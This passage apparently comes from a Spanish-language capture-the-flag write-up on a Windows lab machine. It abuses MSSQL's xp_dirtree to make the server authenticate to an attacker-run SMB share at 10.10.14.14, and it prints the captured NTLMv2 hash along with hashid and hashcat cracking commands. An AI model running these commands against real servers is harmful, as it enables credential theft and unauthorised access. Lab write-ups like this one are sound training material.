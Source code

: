 Probaremos de habilitar el componente **xp\_cmdshell** pero no podemos activarlo por falta de permisos.

```sql
SP_CONFIGURE "show advanced options", 1
```

<figure><img src="../../../../../.gitbook/assets/1432_vmware_zVEDINmHAW.png" alt=""><figcaption></figcaption></figure>

### Abusing MSSQL (xp\_dirtree)

El compontente **xp\_dirtree** si lo tenemos habilitado, probaremos de comprobar si podemos interceptar un hash NTLMv2.

Para ello, des de nuestra Kali nos levantaremos un servidor SMB y des de la terminal de MSSQL procederemos a ejecutar el comando de **xp\_dirtree** en el servidor SMB que hemos montado, por parte de nuestra Kali, hemos recibido el hash NTLMv2.

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree '\\10.10.14.14\smbFolder\'
```

<figure><img src="../../../../../.gitbook/assets/1433_vmware_19P9JCQ9fB.png" alt=""><figcaption></figcaption></figure>

Con la herramienta de **hashid** comprobaremos qué tipo de hash tenemos, en este caso, un hash NTLMv2.

Y con **hashcat** procederemos a crackear el hash para obtener la contraseña.

{% code overflow="wrap" %}
```bash
hashid 'DC01$::MANAGER:aaaaaaaaaaaaaaaa:bc5c4de94dfa738a4028aac1cfc9a3a0:010100000000000080fcf97d4c32db01e7399019cb091b6500000000010010006b0075005600700070007400420065000200100058004f00750056004a00460069004d00030010006b0075005600700070007400420065000400100058004f00750056004a00460069004d000700080080fcf97d4c32db010600040002000000080030003000000000000000000000000030000089d02c51f9b86a7cbcf62b25d97bf9b25eb4e27657ca403a692ae8e78446c5440a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310034000000000000000000'

hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```
{% endcode %}
